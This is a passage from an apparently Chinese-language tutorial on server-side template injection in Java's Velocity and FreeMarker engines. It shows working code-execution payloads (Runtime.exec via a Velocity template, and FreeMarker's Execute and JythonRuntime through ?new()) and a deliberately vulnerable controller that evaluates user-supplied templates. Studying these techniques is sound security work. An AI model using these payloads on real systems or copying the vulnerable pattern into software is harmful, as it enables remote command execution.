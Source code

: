 ```java
        Template t = velocityEngine.getTemplate("templates/index.vm");
        StringWriter w = new StringWriter();
        t.merge(context,w);
        return w.toString();
    }
```
index.vm 内容
```java
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")
```
![](img/14-57-57.png)  
#### 动态渲染字符串
第二种是使用了VelocityEngine.evaluate的动态渲染方法，但渲染的字符串由攻击者可控。案例如Jira CVE-2021-39115模板注入漏洞。  
```java
    @RequestMapping("/customTemplate")
    public String template(@RequestParam String tempalte){
        VelocityEngine velocityEngine = new VelocityEngine();
        velocityEngine.setProperty(RuntimeConstants.RESOURCE_LOADER,"classpath");
        velocityEngine.setProperty("classpath.resource.loader.class", ClasspathResourceLoader.class.getName());
        velocityEngine.init();
        VelocityContext context = new VelocityContext();
        context.put("name", "Velocity");
        context.put("project", "Jakarta");
        StringWriter w = new StringWriter();
        velocityEngine.evaluate(context,w,"test",tempalte);
        return w.toString();
    }
```
![](img/15-01-27.png)
## freemarker
### 语法
文本：包括 HTML 标签与静态文本等静态内容，该部分内容会原样输出  
插值：语法为 ${}， 这部分的输出会被模板引擎计算的值来替换。  
指令标签：<# >或者 <@ >。如果指令为系统内建指令，如assign时，用<# >。如果指令为用户指令，则用<@ >。利用中最常见的指令标签为<#assign>，该指令可创建变量。  
注释：由 <#--和-->表示，注释部分的内容会 FreeMarker 忽略  
### new函数
new函数可创建任意实现了TemplateModel接口的Java对象，同时还可以触发没有实现 TemplateModel接口的类的静态初始化块。  
有两个常被利用继承TemplateModel接口的类为`freemarker.template.utility.JythonRuntime`和`freemarker.template.utility.Execute`。JythonRuntime需要Jython环境。
```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")</@value>

<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
```
